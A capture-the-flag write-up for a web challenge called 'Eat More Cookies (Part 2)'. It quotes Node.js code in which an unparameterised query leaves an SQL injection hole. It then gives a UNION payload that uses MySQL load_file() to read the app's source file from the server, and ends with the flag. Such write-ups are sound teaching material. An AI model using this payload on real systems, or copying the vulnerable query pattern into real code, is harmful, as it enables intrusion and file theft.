


# Eat More Cookies (Part 2)
> `-`

## About the Challenge
We got a website and also the source code (You can download the source code [here](EatMoreCookiespt2.zip)). Here is the preview of the website



If we check the source code, especially this part:

```js
app.get("/searchcookies", isAuthenticated, async (req, res, next) => {
  cookies = req.query.cookies;

  const query = `SELECT * FROM cookies WHERE flavor = "${cookies}"`;

    pool.query(query, (err, result) => {
      if(err){
        return next(err)
      }

    return res.status(200).render("index", {cookies: result || []})
    });
})
```

The `cookies` parameter is vulnerable to SQL injection, and we can get the flag by accessing `/flag` endpoint

```js
app.get("/flag", isAdmin, (req, res, next) => {

  return res.json({"flag": "WSUCTF{F4ke_Flag}"})
})
```

But we need to login as administrator first:

```js
app.post("/adminLogin", async (req, res, next) => {
  const { username, password } = req.body;
  const query = 'SELECT * FROM users WHERE username = ? LIMIT 1';
    try {
    pool.query(query, [username], async (err, result) => {

      user = result[0];

      console.log(user);

      if(!user){
        return res.json({message: "User not found. Please try again."})
      }

      let comparePassword = await bcrypt.compare(password, user.password);

      if(username == "Administrator" && comparePassword){
        req.session.username = "Admin";
        req.session.isAdmin = true;
    
        return res.json({"message": "Successfully logged in as adminstrator."})
      } else if(comparePassword){
        return res.json({"message": "You are logged in, but you aren't administrator. You could've used the regular login instead!"})
      } else {
        return res.json({"message": "Invalid username or password. Please try again."})
      }
    })
  } catch (err) {
    return next(err)
  }

})
```

## How to Solve?
To solve this chall, im using unintended way. Im using `load_file()` MySQL function to read local file and then read `app.js` file

```
" union select 1,load_file('/app/src/app.js'),3-- -
```



```
WSUCTF{Sess1on_IDs_m4ch_more_v4lner9ble_th9n_I_TH0ught}
```